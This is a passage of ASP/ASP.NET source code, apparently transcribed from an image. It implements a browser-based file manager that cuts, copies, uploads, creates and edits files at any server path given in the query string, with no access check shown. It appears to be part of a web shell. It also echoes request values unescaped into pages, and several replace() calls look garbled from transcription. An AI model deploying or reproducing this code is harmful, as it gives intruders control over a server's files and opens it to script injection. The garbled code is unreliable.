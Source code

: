 				directory.move(replace(d,"",""),TEMP1 & "\")  
				response.Write("<script>alert('Cut  " & replace(replace(d,"",""),"\","\\") & "  to  " & replace(TEMP1 & "\","\","\\") & "  success!');location.href='"& request.ServerVariables("URL") & "?action=goto&src="& server.UrlEncode(url) &"'</script>")
			else
				call xexistdir(TEMP2,ow)
				file.move(replace(d,"",""),TEMP2)
				response.Write("<script>alert('Cut  " & replace(replace(d,"",""),"\","\\") & "  to  " & replace(TEMP2,"\","\\") & "  success!');location.href='"& request.ServerVariables("URL") & "?action=goto&src="& server.UrlEncode(url) &"'</script>")
			end if
		else
			TEMP1=url & path.getfilename(mid(replace(d,"",""),1,len(replace(d,"",""))-1))
			TEMP2=url & path.getfilename(replace(d,"",""))
			if right(d,1)="\" then 
				call xexistdir(TEMP1,ow)
				directory.createdirectory(TEMP1)
				call copydir(replace(d,"",""),TEMP1 & "\")
				response.Write("<script>alert('Copy  " & replace(replace(d,"",""),"\","\\") & "  to  " & replace(TEMP1 & "\","\","\\") & "  success!');location.href='"& request.ServerVariables("URL") & "?action=goto&src="& server.UrlEncode(url) &"'</script>")
			else
				call xexistdir(TEMP2,ow)
				file.copy(replace(d,"",""),TEMP2)
				response.Write("<script>alert('Copy  " & replace(replace(d,"",""),"\","\\") & "  to  " & replace(TEMP2,"\","\\") & "  success!');location.href='"& request.ServerVariables("URL") & "?action=goto&src="& server.UrlEncode(url) &"'</script>")
			end if
		end if
	case "upfile"
		url=request.QueryString("src")
%>
<form name="UpFileForm" enctype="multipart/form-data" method="post" action="?src=<%=server.UrlEncode(url)%>" runat="server"  onSubmit="return checkname();">
 You will upload file to this directory : <span class="style3"><%=url%></span><br>
 Please choose file from your computer :
 <input name="upfile" type="file" class="TextBox" id="UpFile" runat="server">
    <input type="submit" id="UpFileSubit" value="Upload" runat="server" onserverclick="UpLoad" class="buttom">
</form>
<a href="javascript:history.back(1);" style="color:#FF0000">Go Back </a>
<%
	case "new"
		url=request.QueryString("src")
%>
<form runat="server">
  <%=url%><br>
  Name:
  <asp:TextBox ID="NewName" TextMode="SingleLine" runat="server" class="TextBox"/>
  <br>
  <asp:RadioButton ID="NewFile" Text="File" runat="server" GroupName="New" Checked="true"/>
  <asp:RadioButton ID="NewDirectory" Text="Directory" runat="server"  GroupName="New"/> 
  <br>
  <asp:Button ID="NewButton" Text="Submit" runat="server" CssClass="buttom"  OnClick="NewFD"/>  
  <input name="Src" type="hidden" value="<%=url%>">
</form>
<a href="javascript:history.back(1);" style="color:#FF0000">Go Back</a>
<%
	case "edit"
		dim b as string
		b=request.QueryString("src")
		call existdir(b)
		dim myread as new streamreader(b,encoding.default)
		filepath.text=b